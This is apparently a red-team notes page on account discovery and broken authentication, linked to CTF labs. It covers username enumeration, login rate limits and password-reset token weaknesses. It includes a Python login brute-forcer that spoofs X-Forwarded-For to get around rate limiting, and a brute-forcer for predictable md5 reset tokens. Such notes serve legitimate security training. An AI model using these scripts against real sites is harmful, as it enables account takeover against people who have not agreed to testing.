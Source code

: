 # Account discovery

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)
[![authenticationbypass](../../../../_badges/thmp/authenticationbypass.svg)](https://tryhackme.com/room/authenticationbypass)
[![adventofcyber2](../../../../_badges/thm/adventofcyber2/day3.svg)](https://tryhackme.com/room/adventofcyber2)
[![surfer](../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)
[![bruteit](../../../../_badges/thm-p/bruteit.svg)](https://tryhackme.com/r/room/bruteit)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
![nibbles](../../../../_badges/htb-p/nibbles.svg)
[![keeper](../../../../_badges/htb-p/keeper.svg)](https://app.hackthebox.com/machines/Keeper)
[![weak_password](../../../../_badges/rootme/web_server/weak_password.svg)](https://www.root-me.org/en/Challenges/Web-Server/Weak-password)

<div class="row row-cols-lg-2"><div>

Account discovery is a self-made name to categorize techniques to find users that have an account of the website.

* 🐟 Try digging in the API (if any)
* 👀 Try testing emails in the password forgot page
* 🙌 Try testing emails in the register page
* 📚 Try to find exposed configuration files
* ✈️ Try to create an account
* ...

We often test weak or mostly default credentials. You can do it manually, or use [Fuzzing](fuzzing.md) with these [wordlists](/cybersecurity/red-team/_knowledge/topics/wordlists.md#accounts).
</div><div>

**Additional notes** 🔥

* Brute forcing accounts is usually done if there is nothing else we can try, while fuzzing for default credentials is acceptable.

Refer to use [Fuzzing](fuzzing.md) or [network authentification tools](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md) such as hydra, which may also be used to brute force forms.

* Try using `xxx+anything@xxx` to register multiple accounts with the 'same' address email `xxx@xxx`. It may be handy to 'farm' accounts.
</div></div>

<hr class="sep-both">

## Username Enumeration

<div class="row row-cols-lg-2"><div>

#### Username Enumeration — Login Page

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

Some websites return a different message when the username was not found and when the password is incorrect, helping in enumeration.

Most websites are computing the hash at each login. If they are using an algorithm "slow enough" <small>(rare)</small> and only doing it if a user exists, then delays in responses may indicate that a user exists.

While rare, some websites prefill fields only if the user exists.

<br>

#### Username Enumeration — Register Page

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

We can't register an account with an already taken username or email. It can be exploited to enumerate usernames.
</div><div>

#### Username Enumeration — Password Forgot/Reset Page

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

Websites may indicate if a user exists when we try to reset a password.
</div></div>

<hr class="sep-both">

## Log In Page

<div class="row row-cols-lg-2"><div>

#### Log In Page — Rate Limit

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

Some websites are implementing a rate timer often using a super increasing wait time. If they are checking the `X-Forwarded-For` to avoid blocking proxies, it means we can arbitrary pick an IP to "ban".

```py
import argparse
import time
import requests

parser = argparse.ArgumentParser(description='Login Brute Force Script')
parser.add_argument('-u', '--userlist', dest='users', required=True, help='Path to the wordlist of usernames')
parser.add_argument('-p', '--passlist', dest='passwords', required=True, help='Path to the wordlist of passwords')
args = parser.parse_args()

with open(args.users, 'r') as f:
    users = [line.strip() for line in f.readlines()]

with open(args.passwords, 'r') as f:
    passwords = [line.strip() for line in f.readlines()]
```
</div><div>

```py
s = requests.Session()
ip_offset = 1
base_ip = '0.0.0.'
for user in users:
    for password in passwords:
        while True:
            response = s.post(
                url='URL/login.php',
                data={
                },
                headers={
                    'X-Forwarded-For': base_ip + str(ip_offset)
                }
            )
            if 'Invalid credentials' in response.text:
                print(f"[-] Failed with {user}:{password}")
                break
            elif 'Too many login failures' in response.text:
                time.sleep(30)
            elif 'Welcome back' in response.text:
                print(f"[+] Found credentials {user}:{password}")
                break
            else:
                print(f"[!] Unexpected reply for {user}:{password}")
                print(response.text)
                break

            ip_offset += 1
```

</div></div>

<hr class="sep-both">

## Password Reset

<div class="row row-cols-lg-2"><div>

#### Password Reset — Predictable Token

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

Reset tokens associated with a request to reset a user account should be randomly generated. Some are using predictable values:

* 🪓 Some hashing function: `md5(username)`
* 🗺️ Some short number: `12345`
* 🪦 Some temporary password based on known data
* 🚧 Some known values to the user, such as with [CVE-2016-0783](https://nvd.nist.gov/vuln/detail/CVE-2016-0783)

```php!
$time = intval(microtime(true) * 1000);
$token = md5($username . $time);
```

Most servers are returning a Date Header with the date of the server. We only need to brute force the microsecond.

```py
time_string = "Sat, 04 May 2024 09:35:52 GMT"
format_string = "%a, %d %b %Y %H:%M:%S %Z"
dt_object = datetime.datetime.strptime(time_string, format_string)
dt_object = pytz.timezone('GMT').localize(dt_object)
base_epoch_ms = int(dt_object.timestamp() * 1000)
for epoch_ms in range(base_epoch_ms - 1000, base_epoch_ms + 1000 + 1):
    token = hashlib.md5(('username' + str(epoch_ms)).encode()).hexdigest()
    # test the token
```
</div><div>

#### Password Reset — Security Questions

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

Some websites are allowing security questions, often from a pre-determined set of questions to avoid users using weak questions.

The problem is that some questions can be easily answered using OSINT or brute forced when the question has limited answers.

Refer to [security question wordlists](/cybersecurity/red-team/_knowledge/topics/wordlists.md).

<br>

#### Password Reset — Birthday_problem

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

If an application is using a lot of tokens and the tokens are not long enough, two users may get the same token [as per this](https://en.wikipedia.org/wiki/Birthday_problem).

<br>

#### Password Reset — Insecure Handling

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

If the token is provided in a GET, it means it will be present in the `referer` Header if set, but it doesn't seem exploitable.
</div></div>
